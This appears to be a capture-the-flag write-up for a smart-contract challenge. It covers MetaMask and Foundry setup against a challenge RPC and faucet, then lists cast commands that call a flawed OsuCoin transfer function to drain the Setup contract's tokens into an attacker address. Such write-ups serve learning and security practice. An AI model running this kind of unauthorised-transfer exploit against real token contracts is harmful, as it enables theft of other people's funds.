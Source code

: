 # Note 

## Setup

### MetaMask

#### Account Creation

1. Create an account on MetaMask
2. Go to `Settings > Networks > Add a network`
3. At the bottom of the screen, choose `Add a network manually`
4. Enter any name
5. Enter the RPC URL provided in the challenge page
    > RPC endpoint: http://45.61.132.140:8545/
6. There would be an error message regarding mismatch chain ID. Use the exact chain ID mentioned in the error message (`0x5903`)
7. Enter any currency symbol
8. Save

#### Getting Address, Funds, and Private Key

1. Go to `Account details`
2. The address would be shown in blue box (hexadecimal value)
3. For private key, just click on `Show private key`
4. To get some funds, head to the provided faucet URL and paste in your account address
    > ETH Testnet Faucet: http://45.61.132.140:8080/

### Foundry

```sh
cast wallet new
```

## Solution

> [!NOTE]
> Remember to prefix the private key with `0x`

### Foundry Cast

```sh
nc 45.61.132.140 20000
# choose 1 and save the deployer account and token
cast send $DEPLOYER_ACCOUNT --rpc-url $RPC_ENDPOINT --private-key $PRIVATE_KEY --value 0.001ether
nc 45.61.132.140 20000
# choose 2 and provide back the token obtained from previous step to get the contract address
export SETUP_ADDR="<contract address>"

forge init --shallow --no-git Solve
rm -f ./Solve/src/* ./Solve/test/*
cp ./contracts/* ./Solve/src/
forge build

cast interface ./Solve/out/Setup.sol/Setup.json
cast interface ./Solve/out/OsuCoin.sol/OsuCoin.json

cast call $SETUP_ADDR --rpc-url $RPC_ENDPOINT "coin()(address)"

export COIN_ADDR="<output of previous command>"
cast call $COIN_ADDR --rpc-url $RPC_ENDPOINT "balanceOf(address)(uint128)" $SETUP_ADDR

cast send $COIN_ADDR --rpc-url $RPC_ENDPOINT --private-key $PRIVATE_KEY "transfer(address,address,uint256)(uint160)" $SETUP_ADDR $HACKER 1000000
cast call $COIN_ADDR --rpc-url $RPC_ENDPOINT "balanceOf(address)(uint128)" $SETUP_ADDR
cast call $COIN_ADDR --rpc-url $RPC_ENDPOINT "balanceOf(address)(uint128)" $HACKER

cast call $SETUP_ADDR --rpc-url $RPC_ENDPOINT "isSolved()(bool)"
nc 45.61.132.140 20000
# choose 3 and profit
```

### Foundry Forge

```sh
# on-chain simulation
forge script script/Solve.s.sol:SolveScript --rpc-url $RPC_ENDPOINT

# real
forge script script/Solve.s.sol:SolveScript --rpc-url $RPC_ENDPOINT --broadcast
```

## Useful Links

- <https://github.com/YanhuiJessica/cheb3>

## Appendix

Use `cast call` if the function is declared with `view` keyword, otherwise use `cast send`
